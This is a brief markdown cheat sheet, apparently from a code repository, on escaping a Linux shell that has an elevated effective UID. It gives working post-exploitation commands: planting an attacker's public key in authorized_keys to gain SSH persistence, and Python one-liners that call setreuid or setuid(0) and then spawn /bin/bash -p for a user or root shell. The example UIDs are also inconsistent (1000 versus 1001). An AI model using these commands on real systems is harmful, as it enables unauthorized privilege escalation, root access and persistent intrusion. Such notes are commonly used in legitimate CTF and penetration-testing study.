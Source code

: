 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape

current setup:

  euid user: 1000(Eve)

  uid user: 33 (www-data)

rough idea how it works executing step by step:
```
$python

\>\>import os

\>\>os.setreuid(1000,1000)	#setreuid(ruid,euid)

\>\>os.system("/bin/bash -p")
```
one line command:
>python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid

1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

#python
```
\>\>import os

\>\>os.setuid(0)

\>\>os.system("/bin/bash -p")
```
one line command:
>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

